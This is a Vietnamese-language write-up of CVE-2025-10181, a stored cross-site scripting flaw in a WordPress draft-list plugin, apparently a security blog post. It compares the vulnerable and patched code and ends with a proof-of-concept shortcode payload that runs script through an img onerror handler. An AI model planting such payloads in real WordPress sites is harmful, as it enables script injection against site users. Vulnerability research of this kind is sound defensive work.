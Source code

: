 ```yaml
---
title: CVE-2025-10181 Analysis & POC
description: Security Vulnerability in WordPress  Draft List Plugin.
date: 2025-09-22 15:38:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, xss]
---
```


- **CVE ID**: [CVE-2025-10181](https://www.cve.org/CVERecord?id=CVE-2025-10181)
- **Product**: [WordPress  Draft List Plugin](https://wordpress.org/plugins/simple-draft-list)
- **Vulnerability Type**: Cross Site Scripting
- **Affected Versions**: <= 2.6
- **CVSS severity**: Low (6.5)
- **Required Privilege**: Contributor

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- ** Draft List**: v3.3.23(vul) và v2.6.1(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis
### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **inc/create-lists.php**.

**Bản lỗi**:

```php
$template   = html_entity_decode( $template );
```

**Bản vá**:

```php
$allowed_list = draft_list_allowed_html();

$template   = wp_kses( html_entity_decode( $template ), $allowed_list );

function draft_list_allowed_html() {

	$allowed_list = array(
		'a'          => array(
			'class' => array(),
			'href'  => array(),
			'rel'   => array(),
			'title' => array(),
		),
		'abbr'       => array(
			'title' => array(),
		),
		// Other logic
	);

	return $allowed_list;
}
```

Bản vá sử dụng [`wp_kses`](https://developer.wordpress.org/reference/functions/wp_kses/) để loại bỏ tất cả thẻ, thuộc tính hoặc giá trị không hợp lệ => Ngăn chặn tấn công XSS từ nội dung người dùng.

<!-- ![Patch Diff](images/posts/2025-09-22-CVE-2025-10181/patch_diff.png) -->

### How It Work?
Trong cùng file **inc/create-lists.php**:

1. Shortcode với tên `drafts` được đăng ký bằng hàm `add_shortcode` nhận `draft_list_shortcode` làm callback.

```php
add_shortcode( 'drafts', 'draft_list_shortcode' );
```

2. `draft_list_shortcode` kiểm tra tồn tại và lấy các **attribute** của shortcode, sau đó trả về kết quả của `draft_list_generate_code`, với các đối số là những biến đã được khởi tạo và xử lý trước đó.

```php
function draft_list_shortcode( $paras = '' ) {
	// other logic
	$template  = '';

	if ( array_key_exists( 'template', $paras ) ) {
		$template = $paras['template'];
	}
	// other logic
	
	return draft_list_generate_code( $limit, $type, $order, $scheduled, $folder, $date, $created, $modified, $template, $words, $pending );
}
```

3. `draft_list_generate_code` là hàm dùng để tạo mã **HTML** danh sách các bài viết nháp (**drafts**) dựa trên các tham số đầu vào.

```php
function draft_list_generate_code_template_only( $drafts, $template = '', $list_limit = 0, ... ) {
    $code = '';
    $template = html_entity_decode( $template );
	$erorr = false

	// Kiểm tra template để đảm bảo rằng nó có chứa tag bắt buộc {{draft}} hoặc %draft%.
	if ( strpos( $template, '%draft%' ) === false && strpos( $template, '{{draft}}' ) === false ) {
		$code .= draft_list_report_error( __( 'The template must include the {{draft}} tag', 'simple-draft-list' ), $plugin_name, false );
		$error = true;
	}

	if (!error){
		$status = array( 'draft' );

		// Lấy danh sách có post có status=draft 
		$args = array(
			'post_status' => $status,
			'post_type'   => $type,
			'numberposts' => 99,
			'orderby'     => $sort_field,
			'sort_order'  => $sort_sequence,
		);

		$drafts = get_posts( $args );

		// Duyệt các draft
		$valid_draft = 1;
		foreach ( $drafts as $draft_data ) {
			if ( $valid_draft > $list_limit && $list_limit > 0 ) break;

			$draft_title = $draft_data->post_title;

			if ( $list ) $this_line = "\t<li>"; else $this_line = '';
			$this_line .= $template;
			if ( $list ) $this_line .= "</li>";

			$code .= $this_line . "\n";
		}
	}

    return $code;
}
```

Với mỗi `$draft_data`, nội dung của `$template` được concat trực tiếp vào `$this_line`.

Sau đó `$this_line` được concat vào `$code`.

Cuối cùng `$code` là toàn bộ HTML được trả về và hiển thị trong trình duyệt.

**Điều quan trọng**:

- Hàm không **lọc** hay **escape** `$template` trước khi concat, nên nếu `$template` chứa payload XSS, payload đó sẽ được in thẳng ra HTML.
- Ta cần điều kiện `!error`=`true` để `foreach ( $drafts as $draft_data )` được diễn ra => cần có `{{draft}}` hoặc `%draft%` trong `$template`

---

## Exploit 
### Detect XSS
Tạo post mới với shortcode `drafts` chứa attribute `template` chứa XSS payload và **save draft**:

```
[drafts template='{{draft}} <img src=x onerror=alert(document.domain)>']
```

---
